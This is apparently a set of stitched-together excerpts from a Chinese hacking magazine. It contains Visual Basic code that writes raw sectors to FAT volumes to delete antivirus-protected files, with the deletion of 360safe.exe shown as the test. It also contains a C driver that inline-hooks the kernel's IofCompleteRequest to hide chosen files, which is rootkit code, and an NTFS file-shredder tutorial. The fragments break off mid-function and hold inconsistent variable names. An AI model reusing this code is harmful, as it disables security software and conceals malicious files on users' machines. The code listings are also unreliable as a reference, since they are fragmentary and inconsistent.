                        WriteDelFlagIntoByte sDisk, TempData(), dCurStartLoc, mm + intLastPos - lNum32Byte - 1, 0, bIsCrash

                        If bIsCrash Then
                            CrashFile sDisk, dCodeCluster, False
                        Else
                            OperateFileAllocateCluster(0, sDisk, dCodeCluster, True, False)
                        End If
                    Else
                        FindDirName = sName
                    End If
                End If

                Exit Function
            Else
                mm = lNum32Byte
                Exit For
            End If
        Else
            mm = lNum32Byte
            Exit For
        End If
    End If
End If
```

## 编程解析 / PROGRAMMING ANALYSE

### （栏目编程）socket

```vb
End If
Else '在簇内找，没有跨簇
CheckSum = GetCheckSum(Data(), (mm + intLastPos) * &H20)
'计算校验值
If CheckSum = CheckNum Then '校验值相同才处理
blsDirFact = Data((mm + intLastPos) * &H20 + &HB) And &H10
If blsDir = blsDirFact Then '要找的目录文件夹或同为文件才比较，否则不找
MoveDataIntoByte Data(), FileNameByte(), ITemp, intLastPos - 1, mm '取出文件名
sName = FileNameByte
lPos = InStr(1, sName, Chr$(0), vbBinaryCompare)
If lPos > 0 Then sName = Left$(sName, lPos - 1)
If StrComp(sDirName, sName, vbTextCompare) = 0 Then
 dFileSize = GetStartClusterAndFileSize(Data(), dCodeCluster, mm + intLastPos, blsDir, blsFind)
If blsLast Then
 If blsFind Then
  FindDirName = sName
  DirInfoIntoType tDirInfo, dCodeCluster, sDisk, sName, dStartLoc + i * lNumByte, 0, 0, mm, intLastPos, bOverCluster, blsCrash
 Else
  If blsDel And (Not blsDir) Then
   WriteDelFlagIntoByte sDisk, Data(), dStartLoc + i * lNumByte, intLastPos, mm, blsCrash
   If blsCrash Then
    CrashFile sDisk, dCodeCluster, False
   Else
    OperateFileAllCluster Cluster(), sDisk, dCodeCluster, True, False
   End If
  Else
   FindDirName = sName
  End If
 End If
 Exit Function
Else
 mm = mm + intLastPos
End If
Else
 mm = mm + intLastPos '跳过长文件
End If
End If
End If
End If
Else '短文件名用处理短文件名的方法
blsDirFact = Data(mm * &H20 + &HB) And &H10
If blsDir = blsDirFact Then
 ReDim FileNameByte(7)
 For ll = 0 To 7
  FileNameByte(ll) = Data(mm * &H20 + ll)
 Next
 sName = StrConv(FileNameByte, vbUnicode)
 sName = Trim$(sName)
 ReDim FileNameByte(2)
 For ll = 0 To 2
  FileNameByte(ll) = Data(mm * &H20 + &H8 + ll)
 Next
 sExtName = StrConv(FileNameByte, vbUnicode)
 sExtName = Trim$(sExtName)
 If sExtName <> "" Then sName = sName & "." & sExtName
 If StrComp(sDirName, sName, vbTextCompare) = 0 Then
  dFileSize = GetStartClusterAndFileSize(Data(), dCodeCluster, mm, blsDir, blsFind)
  If blsLast Then
   If blsFind Then
    FindDirName = sName
    DirInfoIntoType tDirInfo, dCodeCluster, sDisk, sName, dStartLoc + i * lNumByte, 0, 0, mm, 0, bOverCluster, blsCrash
   Else
    If blsDel And (Not blsDir) Then
     WriteDelFlagIntoByte sDisk, Data(), dStartLoc + i * lNumByte, 0, mm, blsCrash
     If blsCrash Then
      CrashFile sDisk, dCodeCluster, False
     Else
      OperateFileAllCluster Cluster(), sDisk, dCodeCluster, True, False
     End If
    Else
     FindDirName = sName
    End If
   End If
  Else
   FindDirName = sName
  End If
  Exit Function
 End If
End If
End If
End If
Next
If bOverCluster Then
 Data = TempData
 i = i + 1
 GoTo GoToNextSector
End If
Next
If blsRootEntry Then
 FindDirName = "No Name"
 Exit Function
End If
If Not bOverCluster Then
 If lFileSystemType = 1 Then
  dStartLoc = GetNextStartLoc16(sDisk, dFirstCluster)
 ElseIf lFileSystemType = 2 Then
  dStartLoc = GetNextStartLoc32(sDisk, dFirstCluster)
 End If
 If dStartLoc = -1 Then
  FindDirName = "No Name"
  Exit Function
 Else
  GoTo Goon
 End If
Else
 Data = TempData
 i = 0
 GoTo GoToNextSector
End If
End Function
```

让文件从“表面上消失”的代码如下：

```vb
Input: Cluster() 如果是获得所有簇号，则这个数组就是接收所有簇号的数组
Input: dCodeCluster 输入文件或文件夹起始簇号
Input: sDisk 要读出的磁盘号
Input: blsDel 是否清除文件的 FAT 记录
Input: blsCrash 是否清除文件的 FAT 表簇号记录同时也要取出簇号
Output: None
Purpose: 操作（清除或是取出）一个文件所包含的所有簇号（主要对文件的 FAT 表进行操作）

Private Function OperateFileAllCluster(Cluster() As Long, sDisk As String, ByVal lCodeCluster As Double, blsDel As Boolean, blsCrash As Boolean)
 Dim lNumSector As Long
 Dim Data() As Byte
 Dim lModSector As Long
 Dim lNum As Long
 Dim lFlagForFat32orFat16 As Integer
 Dim lModFlag As Integer
 Dim lPrev As Double
 Dim LC As Double
 Dim LNew As Double

Dim iMidEndFlag As Double
If iFileSystemType = 1 Then
    iFlagForFat32orFat16 = 2
    iModFlag = 1
ElseIf iFileSystemType = 2 Then
    iFlagForFat32orFat16 = 4
    iModFlag = 3
End If
If Not bIsDel Or bIsCrash Then
    ReDim Cluster(0)
    Cluster(0) = UnsignedToLong(lCodeCluster)
End If
If lCodeCluster >= lFileEndFlag Then Exit Function
LC = lCodeCluster
Start:
iPrev = LC
iModSector = (LC * iFlagForFat32orFat16) Mod lBytePerSector
iNumSector = (LC * iFlagForFat32orFat16) \ lBytePerSector
Do ReDim Data(lBytePerSector - 1)
OpenDisk "\\.\\" & sDisk
ReadDiskbySector Data(), lFatStartSector + iNumSector, 1, lBytePerSector
CloseDisk
MidStart:
DoEvents
If iFileSystemType = 1 Then
    pBytesInInteger(0) = Data(iModSector)
    pBytesInInteger(1) = Data(iModSector + 1)
    iMidEndFlag = IntToUnsigned(iPublicInt)
    If bIsCrash Then
        iNum = iNum + 1
        ReDim Preserve Cluster(iNum)
        Cluster(iNum) = UnsignedToLong(iMidEndFlag)
        Data(iModSector) = 0
        Data(iModSector + 1) = 0
    Else
        If Not bIsDel Then
            iNum = iNum + 1
            ReDim Preserve Cluster(iNum)
            Cluster(iNum) = UnsignedToLong(iMidEndFlag)
        Else
            Data(iModSector) = 0
            Data(iModSector + 1) = 0
        End If
    End If
ElseIf iFileSystemType = 2 Then
    pBytesInLong(0) = Data(iModSector)
    pBytesInLong(1) = Data(iModSector + 1)
    pBytesInLong(2) = Data(iModSector + 2)
    pBytesInLong(3) = Data(iModSector + 3)
    iMidEndFlag = LongToUnsigned(iPublicLong)
    If bIsCrash Then
        iNum = iNum + 1
        ReDim Preserve Cluster(iNum)
        Cluster(iNum) = iPublicLong
        Data(iModSector) = 0
        Data(iModSector + 1) = 0
        Data(iModSector + 2) = 0
        Data(iModSector + 3) = 0
    Else
        If Not bIsDel Then
            iNum = iNum + 1
            ReDim Preserve Cluster(iNum)
            Cluster(iNum) = iPublicLong
        Else
            Data(iModSector) = 0
            Data(iModSector + 1) = 0
            Data(iModSector + 2) = 0
            Data(iModSector + 3) = 0
        End If
    End If
End If
If iMidEndFlag >= lFileEndFlag Then
    If bIsDel Or bIsCrash Then
        OpenDisk "\\.\\" & sDisk
        ...
        WriteDiskbyPos ((lFatStartSector + iNumSector) * lBytePerSector), lBytePerSector, Data() ' 清除第一个 FAT 表对应内容
        WriteDiskbyPos ((lFatStartSector + lSectorPerFat + iNumSector) * lBytePerSector), lBytePerSector, Data() ' 清除第二个 FAT 表对应内容
        CloseDisk
    End If
    Exit Function
Else
    LNew = iMidEndFlag
    If LNew = iPrev + 1 Then
        If iModSector + iModFlag = 511 Then
            LC = LNew
            If bIsDel Or bIsCrash Then
                OpenDisk "\\.\\" & sDisk
                WriteDiskbyPos ((lFatStartSector + iNumSector) * lBytePerSector), lBytePerSector, Data()
                WriteDiskbyPos ((lFatStartSector + lSectorPerFat + iNumSector) * lBytePerSector), lBytePerSector, Data()
                CloseDisk
            End If
            GoTo Start
        Else
            iPrev = LNew
            iModSector = iModSector + iFlagForFat32orFat16
            GoTo MidStart
        End If
    Else
        LC = LNew
        If bIsDel Or bIsCrash Then
            OpenDisk "\\.\\" & sDisk
            WriteDiskbyPos ((lFatStartSector + iNumSector) * lBytePerSector), lBytePerSector, Data()
            WriteDiskbyPos ((lFatStartSector + lSectorPerFat + iNumSector) * lBytePerSector), lBytePerSector, Data()
            CloseDisk
        End If
        GoTo Start
    End If
End If
End Function

' Input / Output / Purpose
Input   DataByte   ' 要处理的数组
Input   sDisk      ' 盘符
Input   ddStartLoc ' 开始地址
Input   lUp        ' 循环上限
Input   lPos       ' 循环标记起始位置
Input   bIsCrash   ' 是否粉碎
Output  None
Purpose ' 写入删除标记到数组，然后写回原扇区

Private Function WriteDelFlagIntoByte(sDisk As String, DataByte() As Byte, ByVal ddStartLoc As Double, ByVal lUp As Long, ByVal lPos As Long, bIsCrash As Boolean)
    Dim iDel As Long
    Dim lDel1 As Long
    Dim lBb As Long
    For iDel = 0 To lUp
        lBb = (lPos + iDel) * &H20
        DataByte(lBb) = &HE5
        If bIsCrash Then
            For lDel1 = 1 To 31
                DataByte(lBb + lDel1) = 0
            Next
        End If
    Next
    OpenDisk "\\.\\" & sDisk
    WriteDiskbyPos ddStartLoc, lBytePerSector, DataByte() ' 清除目录项扇区内容
    CloseDisk
End Function
```

如果不仅仅是要文件“表面上消失”，而是要文件从物理层面上彻底消失，还需要粉碎文件。粉碎文件的核心函数是 CrashFile，它的实现过程如下：```vb
' Input   : lCodeCluster  要擦除文件的起始簇号
' Input   : sDisk         盘符
' Output  : Boolean       是否成功
' Purpose : 彻底粉碎文件
Private Function CrashFile(sDisk As String, ByVal lCodeCluster As Double) As Boolean
    Dim lBytePerCluster As Long
    Dim lNumCluster As Long
    Dim i As Long
    Dim Data() As Byte
    Dim Cluster() As Long
    Dim lConvertToDb As Double
    On Error GoTo yy
    DoEvents
    OperateFileAllCluster Cluster(), sDisk, lCodeCluster, False, True
    lBytePerCluster = lSectorPerCluster * lBytePerSector
    ReDim Data(lBytePerCluster - 1)
    lNumCluster = UBound(Cluster)
    PBar.Max = lNumCluster + 1
    PBar.Min = 0
    If check1.Value = 1 Then
        If OpenDisk("\\.\\" & sDisk) Then
            LockVolume
        End If
    Else
        OpenDisk "\\.\\" & sDisk
    End If
    For i = 0 To lNumCluster - 1
        PBar.Value = i + 1
        DoEvents
        lConvertToDb = LongToUnsigned(Cluster(i))
        WriteDiskbySector Data(), DataStartSector + (lConvertToDb - &H2) * lSectorPerCluster, lSectorPerCluster
    Next
    UnlockVolume
    CloseDisk
    PBar.Value = 0
    CrashFile = True
    Exit Function
yy:
    CrashFile = False
End Function
```

```vb
' Purpose: 把字节数组中的数据写入磁盘
Private Function WriteBytes(ByVal ByteCount As Long, ByRef DataBytes() As Byte) As Boolean
    Dim RetVal As Long
    Dim BytesToWrite As Long
    Dim BytesWritten As Long
    RetVal = WriteFile(hDisk, DataBytes(0), ByteCount, BytesWritten, 0)
    WriteBytes = Not (RetVal = 0)
End Function
```

庐山真面目终于显现了，传说中的“磁盘直接写入”，不过是使用了极为常见的、早已文档化的 Win32 API：WriteFile 而已。主要代码就是如此了，完整代码请到黑防官方网站下载。测试效果详情如图 1 和图 2 所示。


图 1


图 2

选择 360safe.exe，单击“执行操作”按钮。显示“处理完毕”后，需要刷新一下文件夹才可以看到文件被删除。再次启动 360 安全卫士，弹出如图 3 所示的对话框。


图 3

写磁盘的实现代码如下：

```vb
' Input   : lStartSector   要写的扇区起始位置
' Input   : lNumReadSector 要写入多少个扇区
' Input   : db()           待写入数据的数组
' Output  : Boolean        写入是否成功
' Purpose : 把数据写入磁盘，按扇区地址写入磁盘数据
Public Function WriteDiskbySector(db() As Byte, ByVal lStartSector As Double, ByVal lNumWriteSector As Long) As Boolean
    Dim lPosLow As Long
    Dim lPosHigh As Long
    Dim dStartPos As Double
    Dim lWriteBytes As Long

    dStartPos = lStartSector * 512
    lWriteBytes = lNumWriteSector * 512
    lPosHigh = Int(dStartPos / OFFSET_4)
    lPosLow = UnsignedToLong(dStartPos - lPosHigh * OFFSET_4)

    If SetFilePointer(lPosHigh, lPosLow) Then
        WriteDiskbySector = WriteBytes(lWriteBytes, db())
    End If
End Function

' Input  : ByteCount   要写入多少个字节
' Input  : DataBytes() 要写入的字节数组
' Output : Boolean     写入是否成功
```

笔者朋友测试了一下使用 FSD Hook 的瑞星 2010，也可以成功删除它保护的文件。注意：FSD Hook 保护文件要比 Hook KiFastCallEntry 保护文件更底层，在驱动里直接发送 IRP 删除文件可以通过 360，但是通过不了瑞星。再测试了一下 2010 年第 8 期《使用文件过滤驱动保护文件》一文中讲的方法，也可以成功删除被过滤驱动保护的文件。（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：驱动  
关键词：驱动、隐藏文件

## Inline Hook

### IoCompleteRequest 隐藏文件


文/图 liuke_blue

在以前的《黑客防线》杂志上我给大家介绍过通过 inline Hook IoCallDriver 这个函数来达到保护、隐藏文件等。因为该函数中会处理 IRP，我们知道在内核中只要能拦截到 IRP，就可以做很多事。其实还有一个很重要的处理 IRP 函数，即 IoCompleteRequest。IoCompleteRequest 这个宏表示调用者已经完成了对指定 I/O 请求的所有处理操作，并且向 I/O 管理器返回指定的 IRP，也可以使用该函数将 IRP 传给上层驱动。下面我们看看这个函数在 ReactOS 中的源代码：

```c
VOID
NTAPI
IoCompleteRequest(IN PIRP Irp,
                  IN CCHAR PriorityBoost)
{
    /* Call the fastcall */
    IofCompleteRequest(Irp, PriorityBoost);
}
```

显而易见，IoCompleteRequest 主要是调用 IofCompleteRequest 函数。有兴趣的读者可以通过 ReactOS 阅读 IofCompleteRequest 函数的源代码，同时结合在 windbg 的反汇编深入了解，这里我就不过多阐述了。

在 windbg 下对该函数的反汇编如下：

```asm
nt!IofCompleteRequest:
804e27bd ff2584c75580    jmp     dword ptr [...]
nt!pIofCompleteRequest(...):
804e27c3 90              nop
804e27c4 90              nop
804e27c5 90              nop
804e27c6 90              nop
804e27c7 90              nop
```

跟 IoCallDriver 的反汇编代码十分相似，只是跳转的地址不同。我就给大家介绍一下对该函数的 inline Hook。你可以按照 inline Hook IoCallDriver 一样的方式，但是这里我给大家介绍另一种方式的 inline Hook。从上面我们看到起始的 6 字节是跳转到某位置，`ff 25` 是远跳转，也就是跳转的距离 > 0x7f。我们采取 `push xxxx（跳转的地址）`、`ret` 这两条汇编指令占 6 字节。这两条指令我说明一下，`push xxxx`：`esp-4`，将 `xxxx` 存入堆栈；`ret`：将 `esp` 指向堆栈中的值（当前 `esp` 正好指向先前 `push` 进来的 `xxxx`）传给 `eip`，`esp+4`，恢复堆栈平衡。inline Hook IofCompleteRequest 后的效果如图 1 所示。

```asm
lkd> u iofcompleterequest
nt!IofCompleteRequest:
804e27bd 6890b4c1f7      push    0F7C1B490h
804e27c2 c3              ret
804e27c3 90              nop
804e27c4 90              nop
804e27c5 90              nop
804e27c6 90              nop
804e27c7 90              nop
```

图 1

下面是主要的代码：

```c
declspec(naked) VOID FakeIofCompleteRequest()
{
    asm {
        pushad
        pushfd
        cli
        push ecx
        call DispatchIofCompleteRequest
        sti
        popfd
        popad
        jmp OldIofCompleteRequestStart
    }
}

VOID DispatchIofCompleteRequest(IN PIRP Irp)
{
    PIO_STACK_LOCATION IrpStack;
    PVOID buf, prebuf;
    IrpStack = IoGetCurrentIrpStackLocation(Irp);
    if ((IrpStack->MajorFunction == IRP_MJ_DIRECTORY_CONTROL) &&
        (IrpStack->MinorFunction == IRP_MN_QUERY_DIRECTORY) &&
        (NT_SUCCESS(Irp->IoStatus.Status)) &&
        (Irp->IoStatus.Information))
    {
        ...
    }
}
```

```c
prebuf = buf = MapUserBuffer(Irp);
if ((IrpStack->Flags & SL_RETURN_SINGLE_ENTRY) == SL_RETURN_SINGLE_ENTRY)
// 判断是否是单个文件
{
    if (HideFile(Irp, buf, 0, TRUE) == -1)
        return;
}
else
{
    if ((HideFile(Irp, buf, prebuf, FALSE)))
    {
        while (*(PULONG)buf)
        {
            prebuf = buf;
            buf = (PBYTE)buf + *(PULONG)buf;
            if (HideFile(Irp, buf, prebuf, FALSE))
                break;
        }
    }
}
return;

int HideFile(IN PIRP Irp, IN PVOID buf, IN PVOID prebuf, IN BOOLEAN bRetsingle)
{
    PWCHAR p;
    PDWORD len;
    PIO_STACK_LOCATION irpsp;
    irpsp = IoGetCurrentIrpStackLocation(Irp);
    switch (irpsp->Parameters.QueryDirectory.FileInformationClass)
    {
    case FileBothDirectoryInformation:
        p = ((PFILE_BOTH_DIR_INFORMATION)buf)->FileName;
        len = &((PFILE_BOTH_DIR_INFORMATION)buf)->FileNameLength;
        break;
    case FileFullDirectoryInformation:
        p = ((PFILE_FULL_DIR_INFORMATION)buf)->FileName;
        len = &((PFILE_FULL_DIR_INFORMATION)buf)->FileNameLength;
        break;
    case FileNamesInformation:
        p = ((PFILE_NAMES_INFORMATION)buf)->FileName;
        len = &((PFILE_NAMES_INFORMATION)buf)->FileNameLength;
        break;
    case FileDirectoryInformation:
        p = ((PFILE_DIRECTORY_INFORMATION)buf)->FileName;
        len = &((PFILE_DIRECTORY_INFORMATION)buf)->FileNameLength;
        break;
    case FileIdBothDirectoryInformation:
        p = ((PFILE_ID_BOTH_DIR_INFORMATION)buf)->FileName;
        len = &((PFILE_ID_BOTH_DIR_INFORMATION)buf)->FileNameLength;
        break;
    case FileIdFullDirectoryInformation:
        p = ((PFILE_ID_FULL_DIR_INFORMATION)buf)->FileName;
        len = &((PFILE_ID_FULL_DIR_INFORMATION)buf)->FileNameLength;
        break;
    default:
        return FALSE;
    }
    if (p)
```

```c
{
    if (*len == wcslen(HIDESYS) * 2)
    {
        if (!wcsnicmp(p, HIDESYS, wcslen(HIDESYS)))
        {
            if (bRetsingle) // 查询有多个文件
            {
                if (*(PULONG)buf)
                {
                    if (prebuf)
                    {
                        if (buf != prebuf)
                            *(PULONG)prebuf += *(PULONG)buf;
                        else
                            RtlCopyMemory(buf, (PBYTE)buf + *(PULONG)buf,
                                Irp->IoStatus.Information - *(PULONG)buf);
                    }
                    else
                    {
                        if (prebuf == buf)
                        {
                            RtlZeroMemory(buf, Irp->IoStatus.Information);
                            Irp->IoStatus.Information = 0;
                            Irp->IoStatus.Status = STATUS_NO_MORE_FILES;
                        }
                    }
                    *(PULONG)prebuf = 0;
                }
            }
            else // 查询到单个文件
            {
                Irp->IoStatus.Information = 0;
```

以上再说明一下，我们调用 IoCallDriver 将 IRP 传递到下一层驱动，但是我们不会对将 IO_STACK_LOCATION 的地址往下移，所以我们使用 IoSkipCurrentIrpStackLocation 来使 IO_STACK_LOCATION 的地址往上移，因此达到平衡，也就是保持 IRP 不被处理。由于下一个驱动程序的驱动例程调用 IoGetCurrentIrpStackLocation 时，它将收到与我们正使用的完全相同的 IO_STACK_LOCATION 地址（因此，它所处理的将是同一个请求（相同的主副功能代码）以及相同的参数。）

```c
IoSkipCurrentIrpStackLocation(Irp);
IoCallDriver(irpsp->FileObject->Vpb->DeviceObject, Irp);
return 1;
}
return TRUE;
}
}
return FALSE;
}

// 这里 Hook，我采取 push newfun，再 ret 指令（6 字节）
VOID HookIofCompleteRequest()
{
    __asm {
        mov eax, OldIofCompleteRequest
        mov esi, [eax+2]
        mov eax, [esi]
        mov OldIofCompleteRequestStart, eax
    }
    WPOFF();
```

前置知识：VC  
关键词：文件粉碎机、NTFS、MFT

# 编写文件粉碎机


文/图 倪程 王中衫

在电子数据四处乱飞的年代，如何保护自己的文件不被外泄，如何做到文件真正地销毁，是当前亟待解决的问题。一方面，担心自己的重要电子数据丢失；另一方面又担心自己的数据被窃取。当前，很多人为了保护自己的数据不丢失，对数据进行分散管理，即在多个位置备份自己的文件，这种方式必然带来大量数据的冗余存放，极大地降低了文件系统存储效率，同时也给文件使用者带来极大不便，每次更新文件内容都需要对已存在的多个备份进行更新，且安全性能也必然随之下降。

这些问题的出现，也使得数据恢复技术得到快速发展。数据恢复技术即在面对计算机系统遭受误操作、病毒侵袭、硬件故障、黑客攻击等事件后，能够将用户数据从各种“无法读取”的存储设备中拯救出来，从而将损失减到最小的技术。当前，大多数人都希望数据的丢失能够借助数据恢复软件重新找回。当前国际上数据恢复技术主要有：软恢复（文件系统问题）、硬恢复（硬件问题）、大型数据库系统、异型系统的数据恢复、数据覆盖后的恢复。在软件上，主要有 EasyRecovery、FinalData 等。硬件恢复主要是针对磁盘片损坏、磁道坏、硬盘内部系统区坏的修复。在数据恢复技术高速发展的今天，大家又开始担心如何彻底销毁不需要的数据，但又不希望电子数据被别人利用各种工具挖掘出来。本文将介绍一种新方法，采用软件方式实现文件数据的永久擦除。

由上面的分析可知，文件删除后其内容依旧存储在磁盘上，若读者想做到彻底地删除数据，这种方式只会是杯水车薪。显然，一种最为可靠的方式即对文件内容的存储区域，其占用的所有扇区位置全部进行重写，并多次地实施复写操作。据称，美国军方可以恢复覆盖 6～9 次的数据，俄罗斯可恢复覆盖 3～4 次的数据。注意，为了做多数数据的彻底销毁，建议大家至少进行 3～4 次复写操作，且对文件扇区内容交替地置 0 和 1 操作。

好了，基本的实现方式已经确定了，即对文件所占扇区位置反复多次交替地置 0 和 1 操作。下面，即需要确定文件所占扇区位置及其扇区总数。

## 1. 基本原理

FAT 文件系统下，文件借助 FAT 表项作为链表指针将文件所占的簇数串联起来，形成一个类似单链表的结构。即当文件需要一簇空间存放时，系统则会在数据区域中寻找一个空闲簇，并将此簇号存放到 FAT 表特定的表项中（即前一簇在 FAT 表中的映射表项位置）。即只要我们准确地获取到文件首簇号，即可借助 FAT 表，搜索出文件所占的所有簇号。从而，对这些簇号进行复写。已知簇号如何映射到 FAT 表项位置，以期找到其下一簇簇号，如图 1 所示。

NTFS 文件系统下，文件借助 MFT 表 80 属性，准确地读取出对应文件的内容。当文件内容很小，即能够在其对应的 MFT 表项中存放时，则会在 80 属性下写入文件内容，而并不再占用任一簇空间；但当文件内容在一个 MFT 表项中不足以存放时，则会采用一种称之为“数据簇运行”结构来描述文件所占簇数及其每一簇所对应的位置，具体结构如图 2 所示。若读者对文件存储原理甚至数据恢复技术感兴趣的话，可参与笔者在黑防上的培训班深入学习。

## 算法设计思路

- 1. 按 “Delete” 键将文件放入回收站，或者按 “Shift+Delete” 组合键删除文件后，存储在磁盘扇区内的数据并没有删除。
- 2. 系统仅仅是对文件属性区域内的标记进行了简单置位，标识文件已经删除（如 FAT32 下目录项偏移位置置为特定标记；NTFS 下 MFT 头部偏移位置置为对应标记），分别代表已删除文件和已删除目录。


## 2. 打造文件粉碎机

由于文件系统过多，若一一讨论，则很难深入讲解。下面笔者选择 NTFS 文件系统来讲解。要打造文件粉碎机，我们需要解决两个问题：其一，给定一个文件，如何找到其内容所占扇区总数及其每个扇区的位置。其二，如何对给定的扇区进行多次复写。

读者首先会想到，从 NTFS 目录树结构着手，这里设置要粉碎的文件名及路径为：`F:\Smash\Important.doc`。首先定位到根目录区，然后找到其根目录区下对应的目录名 `Smash`，并读取此目录下的 MFT 参考号，此时映射到 MFT 区域，找到此目录的 MFT 表项，读取此目录下的指定文件 `Important.doc` 对应的 MFT 参考号，然后再映射到它所对应的 MFT 表项中，获取 80 属性内容，如图 2 所示的结构内容，即可解析出 `Important.doc` 所占的扇区内容及扇区总数。

这里需要明确以下几点：（1）MFT 表项中的 90 属性会优先存放其下的子文件属性信息（包括子文件 MFT 参考号）；（2）当 90 属性存储不下时，则会引入 A0 属性，即文件分配属性，为 INDX 索引结构，其内容同样存放了其名下所有子文件及子目录的 MFT 参考号、文件名、MAC 时间等属性值。

索引结构 INDX 分析。由 A0 属性值中存放的簇运行结构，转向描述此目录下的所有文件及子目录属性信息的扇区位置，则会出现 “INDX” 索引结构。INDX 结构一般占 8 个扇区，4KB 大小，其大小可以在 BPB 结构体成员 `BPB_ClusPerIndexBlock` 中获取。每个 “INDX” 结构即索引记录都由一个标准的索引头和一组包含索引关键词与索引数据的数据块组成。标准索引项结构具体描述如表 1 所示。

### 表 1 索引项结构描述

| 偏移 | 大小（字节） | 含义 |
|---|---:|---|
| 0x00 | 8 | 文件的 MFT 参考号 |
| 0x08 | 2 | 索引项大小 |
| 0x0A | 2 | 文件名偏移 |
| 0x0E | 2 | 填充（8 字节对齐） |
| 0x10 | 8 | 父目录的 MFT 参考号 |
| 0x38 | 8 | 文件分配大小 |
| 0x40 | 8 | 文件实际大小 |
| 0x50 | 1 | 文件名长度 |
| 0x52 | 2F | 文件名 |

每个索引项结构都均遵照表 1 的描述，则在程序设计中，可以通过读取 INDX 索引结构，获取任一指定目录下的所有文件及其子目录。获取 INDX 结构的代码如下：

```cpp
void ReadINDXContent(CNtfsTree *pHeadNode, CNtfsTree *pRootTree)
{
    DWORD dwBytesPerSec = m_dwBytesPerSec;      // 每扇区字节数
    DWORD dwPerClusSec  = m_dwSecPerClus;       // 每簇扇区数
    DWORD dwStartSec;                           // 每个运行的起始扇区数
    DWORD dwTotalClus;                          // 每个运行占用簇数
    DWORD dwTotalSec;                           // 每个运行占用的总扇区数
    char  buf[5] = {0};
    char  temp[11] = {0};
    wchar_t fileName[256] = {0};

    for (size_t i = 0; i < pRootTree->pVRunVal.size(); i++) {
        dwStartSec = pRootTree->pVRunVal[i]->dwStartSecNum;
        dwTotalSec = pRootTree->pVRunVal[i]->dwTotalSecNum;

        LPBYTE lpBuffer = (LPBYTE)malloc(dwTotalSec * dwBytesPerSec);
        ReadDisk(pRootTree->m_hPartition, dwStartSec, dwTotalSec, lpBuffer);

        LPBYTE lpRunOffset = lpBuffer;
        while (*(LPDWORD)lpRunOffset != 0 || *(LPDWORD)(lpRunOffset + 0x04) != 0) {
            memcpy(buf, lpRunOffset, 4);
            if (!strcmp(buf, "INDX")) {
                DWORD IndexOffset = *(LPDWORD)(lpRunOffset + 0x18);
                lpRunOffset += (IndexOffset + 0x18);
            }

            DWORD dwFileMFTNum = *(LPWORD)(lpRunOffset);
            DWORD fileNameOff  = *(LPWORD)(lpRunOffset + 0x0A);
            DWORD FirstIndexLen = *(LPWORD)(lpRunOffset + 0x08);

            LPBYTE lpTemp = lpRunOffset;
            lpTemp += fileNameOff;
            memcpy(temp, lpTemp, 10);

            if (strchr(temp, '$') == NULL) {
                CNtfsTree *pRootDir = new CNtfsTree;
                DWORD fileLen = *(lpTemp - 0x02);
                memcpy(fileName, lpTemp, fileLen * 2);

                DWORD Bytes = WideCharToMultiByte(CP_ACP, NULL, fileName, wcslen(fileName), NULL, 0, NULL, NULL);
                WideCharToMultiByte(CP_ACP, NULL, fileName, wcslen(fileName), FileNameTemp, Bytes, NULL, NULL);

                if (!strcmp(FileNameTemp, g_pFileName)) {
                    g_flag = true; // 标识已找到此文件
                    return;
                }
            }

            memset(temp, 0, sizeof(temp));
            lpRunOffset += FirstIndexLen;
        }

        free(lpBuffer);
    }

    clearVectorLink(pRootTree);
}
```

这种方式能够快速找到文件对应的 MFT 表项，从而读取其 80 属性下存放的簇运行结构内容。但当文件的目录层次很深时，即类似 “f:\cb\cd\e\g\l\...\m\abc.txt” 深层次的文件，则需要反复定位跳转才能找到其对应的 MFT 表项。下面，笔者给出基于数据恢复思路的文件盲搜索算法，搜索指定分区下所有的 MFT 表项，具体思路如下：

- 1. 读取 `$MFT` 表项 80 属性内容，解析出簇运行结构 V。
- 2. 依据遍历 V 中的每个 MFT 表项，分析 MFT 头，若偏移 16H 处为 “0”、“2” 或 “3”，则扇区号加 2，继续；反之，则转（3）。
- 3. 读取 30 属性内容，判断其对应的文件名与待粉碎文件名是否一致，若一致，则读取 80 属性内容，判断其是否为常驻属性；若是，则读取出文件内容相对 MFT 表项的偏移值 offset，转（4）；否则解析出簇运行结构 V'，转（5）。
- 4. 调用 API 函数 `fwrite` 对文件进行预处理，转（5）。
- 5. 调用 `WriteDisk` 函数，对指定文件所占的所有扇区位置进行复写操作，交替地置为 0 和 1。
- 6. 调用 API 函数 `DeleteFile`，删除复写后的文件，即完成文件粉碎。

## 3. 程序设计与解析

首先需要将文件拖入文件粉碎机，获取文件名，实现如下：

```cpp
void CSmashFileDlg::OnDropFiles(HDROP hDropInfo)
{
    char pFileName[512];
    // 统计拖入软件框中的文件个数
    UINT nFileCount = DragQueryFile(hDropInfo, 0xFFFFFFFF, NULL, 0);
    for(UINT i=0; i<nFileCount; i++){
        memset(pFileName, 0, sizeof(pFileName));
        // 依次将文件拖入列表框，并显示在列表中
        DragQueryFile(hDropInfo, i, pFileName, 512);
        plistbox->AddString(pFileName);
    }
    DragFinish(hDropInfo); // 用完要释放 hDropInfo
}
```

注意：在软件列表框属性中，需要设置其窗体支持文件的拖放功能，即 “Accept Files” 行为设置为 true；同时在窗体中添加消息 `WM_DROPFILES` 即可实现文件拖放。

读取用户选择的待粉碎文件，调用 `CreateFile` 函数，打开文件对应的逻辑分区，并获取分区 BPB 结构重要属性值，如 `BPB_SecPerClus`、`BPB_BytesPerSec` 等。以下为单击“文件粉碎”按钮后的响应函数代码：

```cpp
void CSmashFileDlg::OnBnClickedSmash()
{
    CNtfsTree NtfsObject, *pNtfsTree;
    memset(g_pFilePath, 0, sizeof(g_pFilePath));
    int index = plistbox->GetCurSel();
    if(index == -1){
        MessageBox("请选择待粉碎文件!", "提示", MB_OK);
        return;
    }
    // 获取文件路径及文件名
    plistbox->GetText(index, g_pFilePath);
    char *ptr, c='\\';
    ptr = strchr(g_pFilePath, c);
    if(ptr){ while(*(ptr) != '\\') ptr--; }
    strcpy(g_pFileName, ptr+1); // 提取文件名
}
```

```cpp
char szDrive[10];
memset(szDrive, 0, sizeof(szDrive));
strcpy(szDrive, "\\\\.\\");
// 对逻辑磁盘操作时，文件名必须为 “\\\\.\\X:”
strncat(szDrive, g_pFilePath, 2);
// 以读写方式打开指定的磁盘分区
m_hPartition = CreateFile(szDrive, GENERIC_READ|GENERIC_WRITE,
    FILE_SHARE_READ|FILE_SHARE_WRITE,
    NULL, OPEN_EXISTING, NULL, 0);
unsigned char lpData[512];
// 读取分区首个逻辑扇区，填充 BPB 结构体
